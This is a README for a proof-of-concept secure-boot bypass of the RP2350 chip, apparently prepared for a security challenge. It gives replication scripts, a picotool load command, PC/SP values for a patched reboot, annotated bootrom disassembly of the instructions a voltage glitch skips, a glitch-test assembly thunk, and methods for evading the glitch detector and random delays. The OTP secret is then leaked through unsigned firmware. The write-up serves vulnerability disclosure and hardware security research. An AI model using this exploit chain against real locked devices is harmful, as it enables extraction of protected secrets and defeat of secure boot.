

# RP2350 Security Challenge Proof-of-Concept

This repository holds the proof of concept code for forcing an unverified vector reboot against a locked down rp2350 security chip.

The main part of this repository is set-up for easy replication, i.e., to demonstrate the attack assuming a successful glitch.
For this, instead of using special hardware to perform the glitch, we simulate a successful glitch on the real hardware by skipping an instruction using an attached debugger.
This glitch simulation can be performed using standard hardware, such as a stock Pico 2 and a Raspberry Pi Pico Debug Probe.

Additional explanations on how to verify glitchability on physical hardware are provided further down in this README.
However, these require additional hardware setup and target-specific glitch parameters.
In our original experiments, we used the [RP2350 security playground board](https://github.com/hextreeio/rp2350-security-playground-demo) together with the [Faultier](https://github.com/hextreeio/faultier) fault injection platform.

## Glitch Simulation

### Hardware Setup 

We assume a Raspberry Pi Pico 2 board together with a debug probe, and no other Raspberry-based USB devices connected to the host.
Furthermore, the swd interface is connected, and the UART interface of the Debug probe is connected GP12 and GP13 (UART0) of the Pico 2. 

Other hardware setups are likely to work, but may require to modify the scripts in this repository.


### Software Dependencies

For ease of replication, we use Docker to showcase the attack. Make sure to have Docker installed.

__Note__: We assume Docker on Linux, and use the `--privileged` flag to make sure the USB devices from `/dev` are forwarded to the container.
Please ensure that no other Raspberry devices are connected.

### Verifying the attack:

1) `./0_build.sh` - Execute this to build the docker container, the attack firmware, and a modified version of picotool.
2) `./1_setup_hardware.sh` - Assuming a RP2350 in BOOTSEL mode connected to the host, this script will setup the chip for the challenge. The only modification is that debug access remains unlocked, so that the glitch can be simulated. **Important**: This does irreversible changes to the hardware (e.g., writing to OTP, enabling secure boot). Please ensure that the RP2350 is not to be used in other contexts before executing this script.
3) `./2_run_attack.sh` - executes the glitch simulation. In detail it connects via OpenOCD, reboots the rp2350 (note that BOOTSEL needs to be pressed), loads the attack firmware to RAM, and simulates the glitch. This results into the attack firmware being booted, leaking the otp secret, as shown in the screenshot above.



## How does this work?

### Overview

This secure boot bypass is based on a weakness in the picoboot bootloader embedded on the RP2350.
In particular a glitch is used to make the bootloader believe that a reboot of type REBOOT_TYPE_PC_SP was requested.
This reboot type uses the POWMAN Boot Vector to start execution from an arbitrary point in RAM *without* signature verification. This allows an attacker to preload a malicious firmware image extracting the OTP secret.


### Glitch Target

When entering the function `s_from_ns_varm_api_reboot`, the bootloader firmware hardens the flag variable, to purposefully ensure that this cannot be glitched to hold a disallowed value (i.e., no boot type between value 8-15). This includes preventing the value for BOOT_TYPE_PC_SP (0x0d) being part of the flag variable:

varm_misc.S [[link](https://github.com/raspberrypi/pico-bootrom-rp2350/blob/A2/src/main/arm/varm_misc.S#L41)]:
```
    // Redundant args are passed in r0/*sp, and we want them to mismatch when
    // bit 3 is set (set for all Secure-only reboot types).

    // first check that bit 3 isn't set (since that shouldn't be calling from NS)
    lsls r4, r0, #29
    bcs fail_reboot

    // now, try quite hard to clear bit 3 in r0, so that if bit3 were set in our
    // now-stacked 5th argument to s_varm_hx_reboot, the value in r0 won't match
    // and we'll get an rcp_ violation in the callee

    // 1. put r0 back together without bit 3
    lsrs r4, r4, #29
    lsrs r0, r0, #4
    lsls r0, r0, #4
    orrs r0, r4
    // 2. clear bit 3
    movs r4, #8
    bics r0, r4
    bl s_varm_hx_reboot
    b reboot_return
```

However, the actual reboot logic happens in `s_varm_hx_reboot`, which can also be called from a secure context, and, thus, in theory with a flag value indicating BOOT_TYPE_PC_SP.
Hence, let's look at the beginning of this function (annotated disassembly from ghidra):

```
int s_varm_hx_reboot
        00000578 f7 b5           push       {r0,r1,r2,r4,r5,r6,r7,lr}
        0000057a 14 fe 34 47     mrc2       p7,0x0,r4,cr4,cr4,0x1
        0000057e 01 94           str        r4,[sp,#0x4]=>__stack_canary_value
        00000580 08 9c           ldr        r4,[sp,#0x20]=>flags2
        00000582 44 ec 70 07     mcrr       p7,0x7,r0,r4,cr0
        00000586 00 25           movs       r5,#0x0
        00000588 02 26           movs       r6,#0x2
        0000058a 26 4c           ldr        r4,[DAT_00000624]                                = 400D8000h
        0000058c 76 42           rsbs       r6,r6
        0000058e 25 60           str        r5,[r4,#0x0]=>DAT_400d8000
        00000590 25 4d           ldr        r5,[DAT_00000628]                                = 40018000h
        00000592 ae 60           str        r6,[r5,#offset watchdog_disable]
        00000594 0f 25           movs       r5,#0xf
        00000596 32 36           adds       r6,#0x32
        00000598 05 40           ands       r5,r0 // R0 holds flags, so R5 now flags & 0xf (BOOT_TYPE)
        0000059a 06 40           ands       r6,r0 // R0 holds flags, so R5 now & 0x32 (BOOT_FLAGS:  REBOOT2_FLAG_REBOOT_TO_RISCV)
  -->   0000059c 0d 2d           cmp        r5,#0xd //0xd -> BOOT_TYPE_PC_SP
  -->   0000059e 09 d1           bne        LAB_000005b4 // branch to normal boot
        000005a0 6e b9           cbnz       r6,LAB_000005be // branch to RISCV handling(?)
                             LAB_000005a2                                    XREF[1]:     000005dc(j)  
        /* BOOT_TYPE_PC_SP path */
        000005a2 22 4d           ldr        r5,[DAT_0000062c]                                = B007C0D3h
        000005a4 e5 61           str        r5,[r4,#offset wd_scratch_4]
        000005a6 e5 69           ldr        r5,[r4,#offset wd_scratch_4]
        000005a8 6d 42           rsbs       r5,r5
        000005aa 55 40           eors       r5,r2
        000005ac 25 62           str        r5,[r4,#offset wd_scratch_5]
        000005ae 63 62           str        r3,[r4,#offset wd_scratch_6]
        000005b0 a2 62           str        r2,[r4,#offset wd_scratch_7]
        000005b2 1a e0           b          LAB_000005ea
```

If any of the two instructions marked above would be skipped and REBOOT_TYPE is set to 0, the firmware would believe that a reboot with REBOOT_TYPE_PC_SP was requested. 
Subsequently, this will correctly initialize the watchdog scratch registers to execute from a user supplied PC/SP, *without* validating the image, but also without initializing the hw.

### Loading attack firmware to SRAM

To boot an unverified image from sram, we first need to load it there, which can be done via picotool:
```
picotool load -o 0x20000000 exploit_fw.bin
```

### Modifications to picotool

To send the right reboot parameters via USB, a simple [patch](./res/picotool.patch) is applied to picotool before building.

This patch sets `dParam0` statically to `0x20000335` and dPram1 to `0x20082000`. These values will be interpreted as PC and SP upon REBOOT_TYPE_PC_SP, and `0x20000335` corresponds to the address of main in the attack firmware.

### Exploit Firmware

The exploit firmware [[link](firmware/main.c)] is kept simple.
It uses the raw rp2350_playground.h uart interface to write out the OTP secret. However, it first checks whether we came directly from the reboot command. If so, the vector table is setup correctly, and then the reset vector is executed, allowing the missing hardware initialization to take place.

## Beyond Glitch Simulation

To test if the instructions can indeed be bypassed via glitching, we adjusted the rp2350-security-playground-demo with the following modifications:

1) Switch clock to USB-PLL to follow bootloader clockrate:
```
        uint32_t * clock_src = 0x4001003c;
        *clock_src = 0x21;
```
2) Disable the menu, as it would trigger a restart of the device when running under the slower clock.
3) Instead of using a counting loop, call an assembly thunk re-implementing above bootloader code:
glitchme.S
```
.cpu cortex-m33
.text
  .thumb

.global glitch_me
.thumb_func
glitch_me:
// param0: value to put into critical register
mov        r6, #0
movs       r5,#0xf
add        r6,r6, #0x32
and        r5, r0
and        r6, r0
cmp        r5,#0xd
bne        glitch_no_success1
cbnz       r6, glitch_no_success1

glitch_success:
        mov r0, #43
        bx lr
glitch_no_success1:
        mov r0, #0
        bx lr
glitch_no_success2:
        mov r0, #1
        bx lr
```
This thunk would return a magic value upon successful glitch (43), which can be checked to see if the glitch was successful. Also note that for checking for the glitches via UART, a smaller baudrate is required (because of the hackily modified clock). In our setup, we could successfully use a baudrate of 36920.

Using this example, we could verify that glitches would indeed lead to successful glitches.

## Bypassing the Glitch detector

In the bootloader mode, the system runs with the 48MHz USB PLL clock. This clock rate allows to induce short term voltage glitches without being detected by the glitch detector. This was verified using above script but with the glitch detector enabled.

## Bypassing RCP delay

The victim code path has rcps instruction with a random delay between 0-127 clock cycles. 
This can be bypassed with just enough time and patience, as a successful glitch only needs to appear once.

This has also been verified by modifying the `glitch_me` code sample from above to begin with the instruction:
```
mcrr       p7,0x7,r0,r0,cr0
```
With this instruction, there is an observable jitter in duration of the critical section, however successful glitches can still be observed - even if chaining multiple of this instructions.

It's also worth to note that most rcp instructions on the critical code path do not induce a delay, as they are the non-delay inducing variants (i.e., `mcr2`, `mcrr2`, `mrc2`).